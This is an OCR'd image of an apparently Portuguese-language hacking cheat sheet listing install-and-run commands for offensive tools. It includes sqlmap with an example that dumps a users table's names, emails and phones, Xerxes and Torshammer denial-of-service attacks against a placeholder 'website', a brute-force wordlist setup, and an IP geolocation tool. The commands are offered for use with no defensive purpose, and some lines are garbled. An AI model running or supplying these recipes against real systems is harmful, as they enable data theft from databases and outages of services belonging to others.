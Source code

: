 SQLMAP [✓]

apt update
apt install python
apt install python2
apt install git
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
Python2 sqlmap.py
______
Exemplo
Python2 sqlmap.py -u website –dbs
-D acuart –tables
-D acuart -T users –columns
-D acuart -T users -C name,email,phone -dump
___________________________________
DDOS XERXES [✓]
clang xerxes.c -o xerxes
./xerxes website 80
___________________________________

DDOS TORSHAMMER [✓]
apt-get update
apt-get install python2
apt-get install tor
apt-get install git
git clone https://github.com/dotfighter/torshammer.git
cd torshammer
python2 torshammer.py -T -t website

___________________________________

BRUTEFORCE [✓]
apt update
apt upgrade
apt install python
apt install pip
pip install wordlist
apt install worlist
Wordlist -h
cd /sdcard
Cat pas.txt
___________________________________

Localizar ip
Apt install python git
git clone https://github.com/maldevel/IPGeoLocation.git
cd IPGeoLocation
chmod +x ipgeoLocation.py
pip install -r requirements.txt
python ipgeolocation.py -m
python ipgeolocation.py -t http://www.google.com
___________________________________
